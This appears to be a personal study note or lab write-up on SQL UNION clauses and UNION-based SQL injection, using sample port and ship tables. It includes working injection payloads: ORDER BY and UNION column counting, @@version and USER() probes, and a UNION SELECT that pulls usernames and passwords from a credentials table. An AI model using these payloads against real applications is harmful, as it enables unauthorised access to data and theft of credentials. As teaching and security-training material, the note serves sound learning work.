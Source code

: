 ```yaml
---
description: injecting entire SQL queries executed along with the original query
---
```


# Union Clause & Injection

## Union

[Union](https://dev.mysql.com/doc/refman/8.0/en/union.html) clause is used to combine results from multiple `SELECT` statements.

```shell-session
mysql> SELECT * FROM ports;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| ZZ-21    | Shenzhen  |
+----------+-----------+
3 rows in set (0.00 sec)
```

```shell-session
mysql> SELECT * FROM ships;

+----------+-----------+
| Ship     | city      |
+----------+-----------+
| Morrison | New York  |
+----------+-----------+
1 rows in set (0.00 sec)
```

```shell-session
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
4 rows in set (0.00 sec)
```

`UNION` combined the output of both `SELECT` statements into one

### Even Columns

`UNION` statement can only operate on `SELECT` statements with an **equal number of columns**

Original request

```sql
SELECT * FROM products WHERE product_id = 'user_input'
```

Original + Union

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

### Un-even Columns

we can put junk data for the remaining required columns so that the total number of columns we are `UNION`ing with remains the same as the original query.

> When filling other columns with junk data, we must ensure that the data type matches the columns data type, otherwise the query will return an error. For the sake of simplicity, we will use numbers as our junk data, which will also become handy for tracking our payloads positions, as we will discuss later.

For advanced SQL injection, we may want to simply use 'NULL' to fill other columns, as 'NULL' fits all data types.

The `products` table has two columns in the above example, so we have to `UNION` with two columns. If we only wanted to get one column 'e.g. `username`', we have to do `username, 2`, such that we have the same number of columns:

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

## Union Injection

### Detect number of columns

There are two methods of detecting the number of columns:

* Using `ORDER BY`
* Using `UNION`

**Using ORDER BY**

We have to inject a query that sorts the results by a column we specified, 'i.e., column 1, column 2, and so on', until we get an error saying the column specified does not exist.

```sql
' order by 1-- -
```

**Using UNION**

Union injection with a different number of columns until we successfully get the results back.

```sql
cn' UNION select 1,2,3-- -
```

### Location of Injection

we need to determine which columns are printed to the page. It is very common that not every column will be displayed back to the user

we can use the `@@version` SQL query as a test and place it in the second column instead of the number 2:

```sql
cn' UNION select 1,@@version,3,4-- -
```

<figure><img src="../../.gitbook/assets/image (59) (1).png" alt=""><figcaption></figcaption></figure>

### Assessment

Use a Union injection to get the result of 'user()'

<figure><img src="../../.gitbook/assets/image (38) (1).png" alt=""><figcaption><p>total of 4 columns</p></figcaption></figure>

There are total of 4 columns and displayed 2, 3, and 4 at port code, port city, and port volume repectively

```
cn' UNION select 1,USER(),3,4-- -
```

<figure><img src="../../.gitbook/assets/image (91) (1).png" alt=""><figcaption></figcaption></figure>

